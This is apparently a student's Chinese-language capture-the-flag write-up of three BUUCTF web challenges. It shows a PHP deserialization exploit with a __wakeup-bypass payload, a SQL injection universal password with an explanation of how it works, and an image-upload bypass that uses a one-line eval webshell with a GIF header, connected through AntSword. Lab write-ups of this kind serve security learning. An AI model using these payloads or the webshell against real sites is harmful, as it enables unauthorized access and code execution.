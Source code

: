 # 寒假WEEK1

## 概况

本周主要刷了buu第一页的题，纯复习找找感觉。

## 部分wp

### 1.PHP

打开是一个毛线球逗猫网页，发现提示：

因为每次猫猫都在我键盘上乱跳，所以我有一个良好的备份网站的习惯，不愧是我！！！ 

dirsearch -u扫描一下，扫出来了一大堆文件，根本看不完，最后还是试出来了www.zip，打开该文件，在本地下载得到了一个压缩包。

解压看一下，发现有三个php文件。

先打开flag.php，里面只有一个假flag，再打开class.php，里面是一段反序列化：

```php
<?php

include 'flag.php';

error_reporting(0);

 

class Name{

  private $username = 'nonono';

  private $password = 'yesyes';

  public function __construct($username,$password){

​    $this->username = $username;

​    $this->password = $password;

  }

  function __wakeup(){

​    $this->username = 'guest';

  }

  function __destruct(){

​    if ($this->password != 100) {

​      echo "</br>NO!!!hacker!!!</br>";

​      echo "You name is: ";

​      echo $this->username;echo "</br>";

​      echo "You password is: ";

​      echo $this->password;echo "</br>";

​      die();

​    }

​    if ($this->username === 'admin') {

​      global $flag;

​      echo $flag;

​    }else{

​      echo "</br>hello my friend~~</br>sorry i can't give you the flag!";

​      die();     

​    }

  }

}

?>
```

 再打开index.php,发现可以GET传参select：

```php
include 'class.php';

  $select = $_GET['select'];

  $res=unserialize(@$select);
```

审计代码，发现存在destruct方法，该方法在反序列化结束时自动调用，且要求username强等于admin，password等于100

故exp为：

```php
<?php

class Name{

  private $username;

  private $password;

  public function __construct($username,$password){

​    $this->username = $username;

​    $this->password = $password;

  }

  }

$a=new Name('admin',100);

echo serialize($a);

?>
```

运行得到payload为：

```
O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
```

因为存在wakeup方法需要绕过，所以需要把成员数量改成3

<!--//private声名的是私有变量，仅限于在其在所声名的类中可见，所以要在类名和字段名前加上\0的前缀，且字符长度也包括前缀的长度。-->

参考文章：[【PHP】反序列化漏洞(又名“PHP对象注入”)_对象注入 unserialize() 函数进行攻击-CSDN博客](https://blog.csdn.net/weixin_45844670/article/details/108171963)

最终payload：

```
?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

 

### 2.EasySQL

进入网页，发现是一个登录界面

输入admin 1;，发现报错：

You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1

存在sql注入，且注入点为’，故尝试万能密码

```
1'or'1=1
```

登陆成功，得到flag



补充一段万能密码原理：

**1.原理**

一个简单的登陆页面，要求用户输入账户和密码。若用户输入正确的信息，则返回true，登陆成功并转跳至目标界面，否则返回false并回显报错信息。

这个过程通常使用到了“表示层（UI）-业务逻辑层（BLL）-数据访问层（DAL）”三层架构，例如JSP+MySQL。用户在表示层输入自己的账户和密码，业务逻辑层执行index.php,将用户输入的数据转化为sql语句，数据访问层执行这些sql语句，并返回结果。

```php
$id=$_GET['id'];

$passwd=$_GET['passwd'];

$sql="SELECT *FROM admin WHERE id='$_id' and passwd='$_passwd' "
```

如上代码所示，用户输入的账户和密码被拼接进了sql语句，并在数据库中进行查询。如果用户输入的是非法语句或恶意的sql语句，那么这些语句会通过拼接，带入sql数据库中执行，并返回执行结果，从而导致重要数据泄露。

参考文章：

[三层架构：表示层-业务逻辑层-数据访问层_数据层表示层业务逻辑层-CSDN博客](https://blog.csdn.net/m0_37033566/article/details/53787055)

 WEB安全深度剖析

**2.万能密码**

在SQL Sever中，布尔表达式的优先级从高到低依次是NOT,AND,OR，同级默认从左向右计算。所以，当我们输入万能密码，id为'or 1=1--时，sql语句就是

```
SELECT *FROM admin WHERE id=''or 1=1--' and passwd='$_passwd'
```

在这句中，' 闭合了语句，--将后面的句子注释掉了， 所以这句sql语句就变成了

```
SELECT *FROM admin WHERE id=''or 1=1。
```

因为or连接一方为真则真，且1=1为真，所以这句的运行结果永远为真，故可以成功登录。

 

### 3.upload

进入网页，发现要上传一张图片，上传一个一句话图片马，发现提示：

NO! HACKER! your file included '<?'

再次上传一个修改后的一句话图片马：

```html
<script language=‘php’>@eval($_POST[“passwd”]);</script>
```

上传后得到提示：Don't lie to me, it's not image at all!!!，故猜测是MIME绕过。

bp抓包，添加gif文件头GIF89a，如图：

![image-20250118153506744](image/image-20250118153506744.png)

 蚁剑连接url/upload/muma(passwd).phtml,根目录即可找到flag



 

 

 

 